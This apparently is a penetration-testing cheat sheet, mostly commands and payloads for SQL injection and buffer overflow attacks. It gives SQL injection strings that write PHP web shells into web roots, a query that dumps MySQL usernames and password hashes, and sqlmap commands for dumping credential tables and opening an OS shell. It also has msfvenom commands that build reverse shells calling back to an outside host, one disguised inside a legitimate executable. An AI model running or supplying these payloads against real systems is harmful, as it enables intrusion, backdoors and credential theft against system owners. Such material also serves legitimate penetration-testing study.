 ```
-1' union all select%20 '<?php echo shell_exec($_GET["cmd"]);?>' into OUTFILE  'C:/wamp/www/PHP/images/shell.php' -- -
-1' union all select%20 '<?php echo shell_exec($_GET["cmd"]);?>' into OUTFILE  'C:/wamp/www/shell.php' -- -
test' LIMIT 1 INTO OUTFILE 'C:\\inetpub\\wwwroot\\product-453.php' LINES TERMINATED BY 0x3c3f3d60245f4745545b305d603f3e-- -

#Get mysql user and password
-1 union all select 1, 2, 4,5, GROUP_CONCAT(user, '::', host, '::', password  SEPARATOR', '), 6, 7 FROM mysql.user #


#Misc
show variables; 
show @@plugin_dir
```

### From SQL Injection to Code Execution
```
-1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts') 
-1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```

### Sqlmap
```
sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" (id is the parameter to test)
sqlmap -r lord_root.txt --level=5 --risk=3 --batch --schema (we can add --dbms=mysql to provide sql DB type)
sqlmap -r lord_root.txt --level=5 --risk=3 --batch -D mysql --tables (here -D is for the database to dump)
sqlmap -r lord_root.txt --level=5 --risk=3 --batch -D mysql -T user --columns
sqlmap -r lord_root.txt --level=5 --risk=3 --batch -D mysql -T user -C User,Password,Select_priv --dump

sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --os-shell
```

## Buffer Overflow

### nasm shell
```
msf-nasm_shell

- add eax,12
- jmp eax
```

### Msfvenom
```
#linux buffer overflow
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -b "\x00\x20" -f py -v shellcode

#Generate a shell and bind with a legitame app
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-resources/binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
```
